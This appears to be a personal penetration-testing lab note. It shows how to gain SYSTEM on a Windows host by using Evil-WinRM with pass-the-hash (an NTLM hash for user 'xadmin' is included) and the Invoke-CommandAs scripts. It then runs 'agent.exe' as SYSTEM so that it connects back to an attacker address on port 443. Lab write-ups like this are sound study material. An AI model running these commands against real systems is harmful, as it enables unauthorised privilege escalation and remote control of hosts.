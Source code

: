 
To make everything more simple I created a local scripts folder to use for Evil-WinRM. This will allow me not have to map the entire directory. 

![[Pasted image 20231214120707.png]]

in the new scripts directory create two PowerShell files.

![[Invoke-ScheduledTask.ps1]]
https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1

![[Invoke-CommandAs 1.ps1]]
https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1
## Evil-WinRM

```
evil-winrm -i 172.16.1.20 -u xadmin -H 649f65073a6672a9898cb4eb61f9684a -s /home/p3ta/scripts/PS_Scripts
```

Invoke the scripts
```
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-ScheduledTask.ps1
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-CommandAs.ps1
```

Verify that the scripts are functioning
```
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-CommandAs -ScriptBlock {whoami} -AsSystem
nt authority\system
```

Execute your command as system, in this case agent.exe
```
*Evil-WinRM* PS C:\Users\xadmin\Documents> Invoke-CommandAs -ScriptBlock { C:\Users\xadmin\Documents\agent.exe -connect 10.10.14.21:443 -ignore-cert } -AsSystem
```

